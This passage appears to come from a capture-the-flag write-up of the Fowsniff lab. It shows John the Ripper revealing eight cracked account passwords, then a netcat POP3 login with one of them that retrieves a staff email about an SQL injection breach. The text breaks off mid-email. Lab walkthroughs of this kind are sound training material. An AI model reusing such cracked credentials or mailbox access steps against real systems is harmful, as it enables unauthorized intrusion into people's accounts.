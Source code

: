 
## [John ]
```
# /opt/john/john -format=raw-md5 --show hashes.txt
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
```

## [POP3]
=> login: seina   password: scoobydoo2

root@kali:~/pentest/fowsniff# 
root@kali:~/pentest/fowsniff# nc 11.0.0.20 pop3
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.

STAT
+OK 2 2902

LIST
+OK 2 messages:
1 1622
2 1280
.

RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

